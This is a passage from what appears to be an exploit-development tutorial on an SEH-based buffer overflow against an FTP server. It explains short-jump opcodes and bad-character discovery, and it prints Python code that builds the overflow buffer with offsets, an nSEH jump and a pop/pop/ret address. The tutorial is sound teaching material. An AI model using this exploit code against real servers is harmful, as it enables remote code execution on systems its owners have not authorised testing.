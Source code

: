 A quick note about writing shellcode...you have to be aware that some opcodes will become zero-extended if used improperly. Here, if we simply want to jmp ahead 6 bytes, we will have the opcodes "\xE9\x01" plus zeroes extending an additional 3 bytes of space. This will introduce null-bytes into the buffer which will prematurely terminate any data following after it. Even if we simply just put "\xE9\x01" the CPU will automatically extend an additional 3 bytes of zeroes into the buffer. That's undesirable, so in this case we want to jump short, which is relative to the next byte as an argument. This will give us the opcodes "\xEB\x04" and will allow us to safely jump over our address to pop/pop/ret, and the following two bytes of junk code. We'll also need to expand the amount of "D's" being used by an additional 1000 bytes so we have more space for potential shellcode.  

```python
SEH = pack("<I", 0x7ffc0519)       # SEH should read 1905fc7f
nSEH = "\xCC\xCC\xEB\x04"          # The next SEH should have an address of 04EBCCCC
buffer = "A"*982
buffer += nSEH
buffer += SEH
buffer += "D"*(2000-982-8)         # Add 10 D's as padding to maintain a 1000-byte buffer adjusting for the length of A's, B's, and C's
```

## Finding Bad Characters

![screenshot](/assets/img/freeftpd/jmp_six2.PNG)

Now that we have everything in place, we know the offsets, we control SEH, and we have a means to jump to a code block of whatever we want...we now need to put in some shellcode. First and foremost, we need to determine what characters will be bad. We already know "\x00" are bad, and "\x0a" will also truncate the buffer. What's crazy is that we know "\x0a" is a bad character, but it is also a dependency for the vulnerability. That is super weird, but hey crazier things happen all the time. We'll need to modify the exploit with an array of characters that we will be able to use to determine which ones are bad:

```python
badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff") 

SEH = pack("<I", 0x7ffc0519)       # SEH should read 1905fc7f
nSEH = "\xCC\xCC\xEB\x04"          # The next SEH should have an address of 04EBCCCC
buffer = "A"*982
buffer += nSEH
buffer += SEH
buffer += "D"*(2000-982-8-len(badchars))  
```
